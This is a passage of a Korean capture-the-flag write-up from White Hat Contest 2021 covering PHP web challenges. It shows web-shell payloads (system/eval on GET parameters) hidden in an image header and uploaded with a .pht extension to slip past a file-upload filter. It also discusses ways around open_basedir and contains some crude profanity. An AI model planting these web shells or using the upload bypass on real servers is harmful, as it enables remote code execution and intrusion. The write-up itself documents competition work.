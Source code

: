 ```php
<?= echo system($_GET['c']); ?>
```

이번에는 위와 같이 이미지 헤더 내에 웹쉘 페이로드를 넣은 후에 업로드하고, 쉘 명령어를 실행해보니 잘 되는 것을 볼 수 있었고, 이를 이용해 플래그를 획득했습니다.

> FLAG{ce9f5efd2c90c3f98fc61fcaf608f842}

---
### (Web) Mudbox [290 pts]

> Mudbox 문제는  session_save_path()를 이용한 open_basedir 우회 기법 또는 UAF Sandbox Escape를 이용해 open_basedir 옵션을 우회하고, RCE 하는 문제 입니다. 

저는 ini_set(), chdir() 함수로 ini_set() 함수로 open_basedir 옵션을 우회하려고 밤을 새면서 시도 했는데, ini_set()을 이용해서 open_basedir을 전역에서 설정해주어도 ㅈㄴ 설정이 아예 안 됐습니다. 하지만 저는 이 방법을 고집하고, 계속 시도 하였지만 php.ini 설정 때문인지 이년이 끝까지 말을 안 듣더라구요 :)

결국 대회 끝나고 지인들한테 물어보니 첫 번째는 `session_save_path()`를 이용해서  open_basedir 우회하기 위해 `plugin/` 디렉터리에 웹쉘 올리고, LFI를 이용해서 해당 파일을 실행 시키는 방식이고, 두 번째는 잘 알려진 UAF Sandbox Escape 공격을 하는 것 입니다.

저도 대회때 UAF 공격을 한 번 시도 해보긴 했는데, 파일 크기 때문에 UAF POC 파일을 업로드 하지 못 해서, 공격을 못 했는데, 지금 생각해보면 그냥 `<?= eval($_GET['cmd']); ?>`로 파일을 올리고, cmd 변수에 UAF Payload를 그냥 넘겨주면 됐었습니다.

또한 CCE 2020에서 nomorephp라는 문제와 싱크로율 100 ;; 그냥 ini_set()만 고집 안 했으면 풀었을 건데 아쉽네요.

![](https://github.com/wjddnjs33/Exploit/blob/main/ctf/2021/White%20Hat%20Contest%202021/Mudbox/1.png?raw=true)

문제에서는 위와 같이 파일 업로드 기능을 제공하고 있고, php, phar, htm이 들어간 확장자는 모두 필터링에 걸리는데, pht 확장자를 이용해서 우회할 수 있습니다. 

![](https://github.com/wjddnjs33/Exploit/blob/main/ctf/2021/White%20Hat%20Contest%202021/Mudbox/2.png?raw=true)

```php
<?php
    eval($_GET['code']);
    show_source(__FILE__);
?>
```
그래서 일단 위 페이로드를 pht 확장자로 업로드 해주었습니다.

![](https://github.com/wjddnjs33/Exploit/blob/main/ctf/2021/White%20Hat%20Contest%202021/Mudbox/3.png?raw=true)

업로드한 파일을 읽어 보니 php로 잘 인식하는 것을 확인 할 수 있습니다.

![](https://github.com/wjddnjs33/Exploit/blob/main/ctf/2021/White%20Hat%20Contest%202021/Mudbox/rce.png?raw=true)

code 값으로 `phpinfo();`를 넘겨ㅡ주니 실행 또한 잘 되는 것을 확인 할 수 있습니다.

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,getenv,putenv
```
`phpinfo();`에서 disable_functions 설정을 확인 해보니 위와 같이 여러 함수들이 비활성화 되어 있는 것을 확인 할 수 있습니다.
